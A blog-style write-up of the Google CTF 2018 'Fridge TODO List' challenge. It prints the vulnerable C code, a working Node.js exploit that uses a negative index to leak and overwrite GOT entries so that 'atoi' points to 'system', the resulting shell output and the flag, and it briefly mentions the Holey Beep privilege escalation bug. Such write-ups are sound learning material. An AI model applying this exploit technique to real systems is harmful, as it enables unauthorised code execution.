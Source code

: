 # Hacking Smart Fridge at Google CTF 2018

It's unfortunate, but these SUID binary exploits are a bit too difficult. I
managed to solve none of them. I will go study more about SUID binaries and
hopefully I can get cakes next year.

But hey, I did manage to hack into the smart fridge.

## Fridge TODO List

The source code of the vulnerable program is included in the attachment.
Reading over it, it's not hard to see what's broken, but how to exploit it
is another question:

```C
// [...]

void store_todo() {
  printf("In which slot would you like to store the new entry? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("What's your TODO? ");
  fflush(stdout);
  read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
}

void print_todo() {
  printf("Which entry would you like to read? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("Your TODO: %s\n", &todos[idx*TODO_LENGTH]);
}

// [...]
```

If I enter a negative number, I can read and write data out of bound. However,
`TODO_LENGTH` is `0x30`, so my access is somewhat restricted. With some math
and a disassembler, I found places that I can access:

```
-6  The "write" function in the Global Offset Table
-5  The "strncat" function in the Global Offset Table
-4  The "open" function in the Global Offset Table
-3  Some random place
-2  Start of "username" buffer
-1  Somewhere in the middle of "username" buffer
```

The `system` function in between `write` and `strncat` would allow me to
execute any shell command, so my goal should be to overwrite the Global Offset
Table (GOT) and make some other function point to `system`. Since `atoi` is
used to parse my menu choice input, it would be easy to exploit if I can make
`atoi` point to `system`. But there is another problem, modern operating
systems have Address Space Layout Randomization (ASLR), and a static payload
would not work.

I spent some time creating a
[Node.js library](https://github.com/jspenguin2017/Blog/tree/master/tools/lib)
that allow my scripts to react to different server response over `netcat`.
Since I can't directly read the address of `system`, I have to calculate it
based on something else. `strncat` is already called before I can leak the
GOT, but `write` is only called when the program is exiting, so its GOT entry
should be still pointing to the Procedure Linkage Table (PLT). With Hopper
Disassembler, I determined that the `system` entry in PLT is `0x30` below
`write`. Hopefully it'll work:

```JavaScript
"use strict";

const assert = require("assert");

const hex_utils = require("./lib/hex_utils");
const net_utils = require("./lib/net_utils");

const conn = new net_utils("fridge-todo-list.ctfcompetition.com", 1337);

(async () => {
    // Log in as (fake) root
    await conn.read_until("user:");
    conn.write_line("root");

    await conn.read_until(">");
    conn.write_line("2");

    // Leak address of "write" in the GOT
    await conn.read_until("read?");
    conn.write_line("-6");

    await conn.read_until("TODO: ");
    let data = await conn.read_until("Hi root");

    const i = data.indexOf("\n\n");
    assert(i !== -1);
    data = data.slice(0, i);
    hex_utils.add_carry(data, 0x30);

    // Overwrite "atoi" with "system", corrupting "open" on the way, I don't
    // need "open" anymore, so it's OK
    await conn.read_until(">");
    conn.write_line("3");

    await conn.read_until("entry?");
    conn.write_line("-4");

    await conn.read_until("TODO?");
    conn.write_bytes("A".repeat(8));
    conn.write_bytes(data);
    conn.write_bytes("\n");

    // List directory
    await conn.read_until(">");
    conn.write_line("ls -al ./todos");
})();
```

Let's try it:

```
$ node exploit
[...]
> ls -al ./todos
total 12
drwxrwxrwt 2 user user   80 Jul  8 03:47 .
drwxr-xr-x 3 user user 4096 Jun 29 14:38 ..
-rw-r--r-- 1 user user 6144 Jul  8 03:47 CountZero
-rw------- 1 user user    0 Jul  8 03:47 root
[...]
```

Looks like Wintermuted is using `CountZero` as his username:

```
$ nc fridge-todo-list.ctfcompetition.com 1337
[...]
user: CountZero
+=====+=================================================================+
|   0 | Watch Hackers (again)                                           |
|   1 | Figure out why the fridge keeps beeping                         |
|   2 | check /home/user/holey_beep                                     |
|   3 | debug the fridge - toilet connectivity                          |
|   4 | follow sec advice: CTF{goo.gl/cjHknW}                           |
+=====+=================================================================+
[...]
```

And there is the flag. Check `/home/user/holey_beep`? What does that mean?

As for the URL in the flag, it links to a (troll) tweet saying signed integers
are more secure than unsigned ones.

## Holey... Beep?

Holey Beep, or [CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492),
is a privilege escalation vulnerability in the `beep` utility. Although I
managed to understand how Holey Beep works, I didn't manage to complete this
quest...

I will be back... Next year...
